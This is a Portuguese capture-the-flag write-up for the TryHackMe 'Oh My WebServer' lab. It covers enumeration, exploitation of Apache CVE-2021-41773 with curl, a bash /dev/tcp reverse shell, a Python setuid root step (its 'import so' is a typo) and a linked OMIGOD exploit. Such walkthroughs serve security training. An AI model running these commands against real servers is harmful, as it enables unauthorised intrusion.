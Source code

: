 ```yaml
---
title: THM - Oh My WebServer
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/ohmywebserver/banner.png"
alt: "tryhackme"
---
```


![banner](/img/thm/ohmywebserver/banner.png) 
<hr>

# Recon
Começando com Nmap, vamos enumerar a máquina para ver quais portas e serviços estão rodando no servidor.

* -sC - Default Nmap scripts
* -sV - Services version
* -oA - Save output to a file
* -v  - Verbose mode

![nmap](/img/thm/ohmywebserver/nmap.png)

Apenas as portas 80 e 22 estão abertas, executando um Apache 2.4.4 e um SSH respectivamente. Então vamos começar pela aplicação web.

![consult](/img/thm/ohmywebserver/consult.png)

A princípio não há nada demais, então podemos enumerar os diretórios usando o `ffuf`

`ffuf -u http://10.10.148.87/FUZZ -w /path/to/wordlist -t 90 -c`

* -u - Target URL
* -w - Wordlist file path
* -t - Number of concurrent threads
* -c - Colorize output

![ffuf](/img/thm/ohmywebserver/ffuf.png)

Encontrei dois diretório que podem ser interessantes: `assets` e `cgi-bin`

![assets](/img/thm/ohmywebserver/assets.png)

Porém a princípio não havia nada de mais

![cgi-bin](/img/thm/ohmywebserver/cgi-bin.png)

## Reverse shell

Após não encontrar muita coisa, voltei nos resultados do Nmap e notei que a versão do Apache que estava sendo executada havia uma CVE: `CVE-2021-41773`. Podemos confirmar usando o cURL.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'Content-Type: text/plain; echo; whoami && id'`

![curl-first-command](/img/thm/ohmywebserver/curl_first_command.png)

Consegui um Path Traversal, no qual conseguimos executar comandos, então podemos usar o cURL e o netcat para estabelecer uma conexão reversa.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d "Content-Type: text/plain; echo; bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT/ <&1'"`

![reverse-shell](/img/thm/ohmywebserver/reverse_shell.png)

## User

Recebi a conexão, porém não tem nenhum usuário no sistema e também nenhum diretório home.

![no-user](/img/thm/ohmywebserver/no-user.png)

Após passar algum tempo procurando um ponto de partida decidi usar o linPEAS, e foi onde obtive a seguinte saída:

![linpeas](/img/thm/ohmywebserver/linpeas.png)

Com isso podemos setar o UID usando o python.

`python3 -c 'import so; os.setuid(0); os.system("/bin/bash")'`

![setuid](/img/thm/ohmywebserver/user.png)

## Root

Após a enumeração olhei novamente a saída do linPEAS, e foi onde econtrei algo interessante: há outro endereço IP. Então podemos usar o Nmap para enumerar esse host. Você pode baixar o binário [aqui](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64).

`nmap -v 172.17.0.0-5`

Esse comando vai fazer um scan do host 0 ao 5, e saída nos mostra que o host 172.17.0.1 está ativo.

![nmap_ntw](/img/thm/ohmywebserver/nmap_ntw.png)

Enumerando todas as 65535 portas o scan apontou duas portas abertas: `5985` e `5986`

![nmap_nports](/img/thm/ohmywebserver/nmap_nports.png) 

Com isso temos outra CVE: `CVE-2021-38647`, na qual podemos usar um script já pronto para explorar a falha. Você pode baixar o script [aqui](https://github.com/AlteredSecurity/CVE-2021-38647).

![omigod](/img/thm/ohmywebserver/omigod.png)

O scrip executa comandos na máquina alvo, então podemos passá-los na execução como argumento, lendo a flag de root.

![root](/img/thm/ohmywebserver/root.png)
